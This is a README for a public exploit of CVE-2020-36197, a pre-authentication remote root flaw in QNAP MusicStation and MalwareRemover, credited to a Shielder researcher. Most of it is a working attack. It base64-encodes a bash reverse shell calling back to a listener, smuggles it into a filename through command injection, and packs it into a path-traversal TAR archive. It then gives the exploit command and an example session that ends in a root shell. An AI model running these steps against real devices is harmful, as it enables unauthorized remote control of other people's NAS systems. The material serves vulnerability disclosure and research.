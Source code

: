 # CVE-2020-36197

## Introduction
QNAP MusicStation and MalwareRemover official apps are affected by an arbitrary file upload and a command injection vulnerabilities, leading to pre-auth remote root command execution.

Read more at https://www.shielder.it/advisories/qnap-musicstation-malwareremover-pre-auth-remote-code-execution/

## Usage
1. Create a new TAR file with the payload, e.g.:
```
$ git clone https://github.com/ptoomey3/evilarc
Cloning into 'evilarc'...
remote: Enumerating objects: 12, done.
remote: Total 12 (delta 0), reused 0 (delta 0), pack-reused 12
Unpacking objects: 100% (12/12), done.
$ cd evilarc/
$ echo -n 'bash -i >& /dev/tcp/172.16.42.114/8383 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTYuNDIuMTE0LzgzODMgMD4mMQ==
$ touch ';echo${IFS}-n${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTYuNDIuMTE0LzgzODMgMD4mMQ==|base64${IFS}-d|bash;#'
$ ./evilarc.py -f a.tar -o unix -d0 -p "/tmp/polict" ';echo${IFS}-n${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTYuNDIuMTE0LzgzODMgMD4mMQ==|base64${IFS}-d|bash;#'
Creating a.tar containing /tmp/polict/;echo${IFS}-n${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTYuNDIuMTE0LzgzODMgMD4mMQ==|base64${IFS}-d|bash;#
```
2. Run the exploit with the correct arguments, e.g.:
`python3 ./CVE-2020-36197.py -rh http://172.16.42.178:8080 -lh 172.16.42.114 -sh 19 -sm 16 -tf a.tar`

## Example run
```
$ ./$0.py -rh http://172.16.42.178:8080 -lh 172.16.42.114 -sh 19 -sm 16 -tf a.tar
2020-10-26 19:14:18,761 - INFO - sleeping for 41.23835 seconds to wait for 19:16:00 minus 1 minute...
2020-10-26 19:15:00,001 - INFO - starting remote shell handler...
2020-10-26 19:15:00,004 - INFO - continously uploading jpg with payload in background...
bash: no job control in this shell
bash-3.2# id
id
uid=0(admin) gid=0(administrators) groups=0(administrators),100(everyone)
bash-3.2# exit
exit
exit
*** Connection closed by remote host ***
```

## Credits
* [polict](https://twitter.com/polict_) of Shielder for vulnerabilities discovery and exploit development.